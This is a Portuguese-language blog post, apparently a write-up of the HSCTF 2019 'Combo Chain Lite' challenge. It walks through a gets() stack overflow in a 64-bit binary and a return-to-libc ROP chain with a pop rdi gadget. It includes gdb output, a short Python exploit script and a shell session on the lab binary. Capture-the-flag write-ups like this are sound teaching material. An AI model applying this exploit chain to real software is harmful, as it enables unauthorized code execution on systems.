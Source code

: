 ```yaml
---
layout: default
title: Combo Chain Lite - [HSCTF 2019] - Return to libc x64
date: 2019-06-12 18:22
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

Não consigo me recordar da descrição desse desafio mas citava algo com ROP (Return Oriented Programming). O achei divertido porque me relembrou das diferenças entre explorar um binário 32bits e um 64.

Antes de tudo, uma analisada no código fonte:
<script src="https://gist.github.com/brerodrigues/305d2fbf300852c17ba8eeab38391e96.js"></script>

Tava na cara que a linha 10 da função *vuln* ia estourar o espaço reservado para a variável *dest* se alguém passasse mais de 8 chars quando *gets* pedisse input do usuário. Um clássico buffer overflow.

No gdb, não foi necessária muita mágica para descobrir o quanto de espaço era preciso para sobreescrever o endereço de retorno da função:

```
run <<< $(python -c 'print "A"*16 + "BBBB"')
```

16 A's e 4 B's resultaram nisso:

```
Stopped reason: SIGSEGV
0x0000000042424242 in ?? ()
```

0x42, o programa tentou retornar para belos e maisculos B's.

Já desconfiava e tive certeza quando rodei o comando *checksec* e vi o bit NX setado. Nada de executar shellcode na stack dessa vez (o que não é SEMPRE impossível quando esse bit estiver setado, falo mais sobre isso um dia).

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Como visto no codigo fonte, o binário imprime o endereço de *system* a cada execução:

```
b@b ~/h> ./combo-chain-lite 
Here's your free computer: 0x7ffff7a33440
Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!: 
```

Com o endereço da função system e um argumento bem localizado na stack, a gente consegue fazer system executar o comando */bin/sh*. Não se preocupe, vou explicar isso melhor.

O binário ajuda novamente e tem exatamente essa string passeando na memória. Conseguimos encontra-la usando o comando *find "/bin/sh"* no peda. Mas antes é necessário executar o programa, por isso setei um breakpoint em main.

```
gdb-peda$ b *main
Breakpoint 1 at 0x4011bf
gdb-peda$ run
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7b97e9a --> 0x68732f6e69622f ('/bin/sh')
```

Ah, com o endereço de system e bin/sh achei que bastava fazer o que fiz no [level6 do narnia](https://brerodrigues.github.io/ctfs/favorites/level-6-return-to-libc-overthewire-ctf-narnia-write-up). Se você não faz ideia do que é Return Oriented Programming, recomendo que passe lá, explico com uma maior paciência os detalhes sórdidos.

```
b@b ~/h> file combo-chain-lite 
combo-chain-lite: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c56cc6916b1933494d1cc55ae82dcaf1cdf6693d, for GNU/Linux 3.2.0, not stripped
```

Mas não era tão simples quanto em narnia. A diferença é que o binário é um ELF 64-bits. 
Após erroneamente tentar explorar a falha jogando o endereço de /bin/sh na stack e chamando system, percebi minha viagem.

Na arquitetura 64 bits uma função não recebe, simplesmente, parâmetros via stack. Primeiro eles são passados usando os registradores. E não é de qualquer jeito, existe uma ordem:
1.  RDI
2.  RSI
3.  RDX
4.  RCX
5.  R8
6.  R9

E a stack só é utilizada se houver a necessidade de mais parâmetros.

Sabendo que system precisa apenas de um parâmetro, que é o comando que será executado, seria só questão de passar o endereço de /bin/sh para RDI e pwned. Como fazer isso? Return Oriented Programming.

Sem a possibilidade de executar nosso próprio código, ROP dá a ideia de usar o código disponível no binário (chamam esses pedaços de código de *gadgets*) para manipular a memória do programa e executar o que queremos. Minha primeira tentativa, usando uma técnica conhecida como *Return-to-libc*, nada mais é do que Return Oriented Programming. É uma explicação rasa, no final do post deixarei uns links que vão mais a fundo.

Voltando ao desafio: como mandar o endereço de /bin/sh para RDI? Era necessário executar uma instrução que pegasse esse endereço da stack, tipo POP RDI, e depois o programa teria que chamar system.

Não é qualquer POP RDI que posso usar porque depois de pular para essa instrução, a execução vai continuar nos endereços seguintes. Não adianta fazer um POP RDI e logo depois vir um CALL printf e etc porque foderia com minha stack e o programa ia dar crash e nunca daria uma shell. Aí que entra o conceito de gadgets: um gadget, normalmente, é uma instrução acompanhada de um RET, que é a instrução que vai pegar da stack o endereço da próxima instrução a ser executada. Logo, pegando gadgets, a gente pode inserir na stack os endereços um após o outro e o programa vai sair executando ordenadamente feliz da vida. 
Fica tipo assim na stack: gadget1->gadget2->gadget3... E a execução fica: gadget1: POP RDI, RET -> gadget2: POP RSI, RET -> gadget3: POP RDX, RET... 

Para encontrar instruções aptas para fazer essa mágica usei uma bela ferramente chamada [Ropper](https://github.com/sashs/Ropper). Ele automatiza essa busca.

Com o comando *./Ropper.py --file ../combo-chain-lite --search "% ?di"* recebo uma lista de gadgets que fazem operações com RDI ou EDI (por isso a "%?di" na busca). Vem uma caralhada de opções e em meio a elas encontro a perfeita:

```
0x0000000000401273: pop rdi; ret; 
```

Executando esse conjunto de instruções eu jogo algo da stack para RDI e retorno para a stack, onde vai ter o endereço da função system que irá ser chamada e achará em RDI o endereço de /bin/sh.

Meu exploit ficará alinhado na stack nessa ordem:
```
0x0000000000401273: pop rdi; ret; 
0x402051: /bin/sh
0x7ffff7a33440: system
```

Alterei minha rápida e nojenta PoC feita em python para formatar bonitinho os endereços e jogar num arquivo. Daí era só executar e passar como entrada para o binário e ganhar uma shell.

```
from struct import *

buf = ""
buf += "A"*16
buf += pack("<Q", 0x0000000000401273)       # pop rdi; ret;
buf += pack("<Q", 0x402051)                 # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a33440)           # address of system()

f = open("exploit", "w")
f.write(buf)
```

O segundo cat é para manter stdin aberta. Sem ele system chama /bin/sh e fecha logo depois.

```
$ (cat in.txt; cat) | ./combo-chain-lite 
Here's your free computer: 0x7ffff7a33440
Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!: 
uname -a
Linux b 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Para explorar no CTF fiz um scriptizinho mais bonito. Usando o pwntools e tudo. Facilitou na hora de pegar o endereço de system que o binário manda na primeira linha. Pode observar na linha 12.

<script src="https://gist.github.com/brerodrigues/793458dddfdf3a18336302a1313b94f1.js"></script>

Links:
1. https://ctf101.org/binary-exploitation/return-oriented-programming/
2. https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/
